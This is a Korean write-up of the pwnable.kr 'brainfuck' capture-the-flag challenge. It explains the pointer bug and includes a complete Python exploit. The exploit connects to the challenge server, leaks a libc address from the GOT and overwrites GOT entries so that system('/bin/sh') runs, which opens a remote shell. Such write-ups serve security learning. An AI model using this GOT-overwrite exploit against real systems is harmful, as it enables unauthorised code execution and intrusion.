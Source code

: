 ## brainfuck

## 문제

> I made a simple brain-fuck language emulation program written in C.   
> The \[ \] commands are not implemented yet. However the rest functionality seems working fine.   
> Find a bug and exploit it to get a shell.
>
> Download : [http://pwnable.kr/bin/bf](http://pwnable.kr/bin/bf)  
> Download : [http://pwnable.kr/bin/bf\_libc.so](http://pwnable.kr/bin/bf_libc.so)
>
> Running at : nc pwnable.kr 9001

## 소스 {#취약점}

문제에서 bf파일이 ELF 파일이고 bf\_libc.so는 동적 라이브러리 파일입니다. 참고하시기 바랍니다.

## 취약점 {#취약점}

* 일반적인 난해한 프로그래밍 언어가 그러하듯 브레인퍽에서도 포인터를 이용한다.
* 소스가 공개되어 있다.

## 힌트 {#힌트}

* [PLT&GOT](/system/plt-and-got.md) 익스플로잇
* netcat를 이용한 스크립트 작성

## 공략 {#공략}

대부분의 공개된 공략법은 영문, 중문으로 되어 있고 또한 파이썬 pwn 라이브러리를 이용하였습니다만 이 공략에서는 pwn 라이브러리를 이용하지 않고 공략하는 방법을 서술하였습니다.

## 참고 페이지 {#공략}

* [https://tuonilabs.wordpress.com/2016/12/08/pwnable-kr-rookiss-write-up/](https://tuonilabs.wordpress.com/2016/12/08/pwnable-kr-rookiss-write-up/)

* [https://namu.wiki/w/BrainFuck](https://namu.wiki/w/BrainFuck)

```python
import nclib
import time
import binascii
# from pwn import ELF

# libc = ELF("./bf_libc.so")

nc = nclib.Netcat(("pwnable.kr", 9001))
time.sleep(2)
print(nc.recv())

# bf
p = tape     = 0x0804a0a0
got_fgets    = 0x0804a010
got_memset   = 0x0804a02c

# bf_libc.so
so_fgets    = 0x0005d540
so_system   = 0x0003a920
so_gets     = 0x0005e770
main        = 0x08048671


# script
str=""
# 포인터를 fgets@GOT로 가리킴
str+='<'*(p-got_fgets)
# fgets@GOT 주소 출력
str+='.>'*4
# fgets@GOT 주소 삭제
str+='<'*4
# fgets@GOT 주소를 call system으로 수정
str+=',>'*4
# 포인터를 memset@GOT로 가리킴. memset@GOT - fgets@GOT
str+='<'*4 + '>' * (got_memset - got_fgets)
# memset@GOT 주소를 call fgets로 수정
str+=',>'*4
# putchar@GOT를 main 시작 주소로 수정
str+=',>'*4
# putchar(=main) 호출
str+='.'
# end
str+='\n'
nc.send(str.encode())
time.sleep(1)

# fgets_addr = int(binascii.hexlify(nc.recv()), 16)
addr = nc.recv(4)
print(addr)    
fgets_addr = int.from_bytes(addr, byteorder='little')
system_addr = fgets_addr - so_fgets + so_system
gets_addr = fgets_addr - so_fgets + so_gets
print('fgets_addr :', hex(fgets_addr))
print('system_addr :', hex(system_addr))
print('gets_addr :', hex(gets_addr))
print('main_addr :', hex(main))
nc.send(system_addr.to_bytes(4, byteorder='little'))
nc.send(gets_addr.to_bytes(4, byteorder='little'))
nc.send(main.to_bytes(4, byteorder='little'))
# addrs = system_addr.to_bytes(4, byteorder='little')+ gets_addr.to_bytes(4, byteorder='little')+ main.to_bytes(4, byteorder='little')
# nc.send(addrs + b'/bin/sh\n')
nc.send(b'/bin/sh\n')

nc.interact()
```



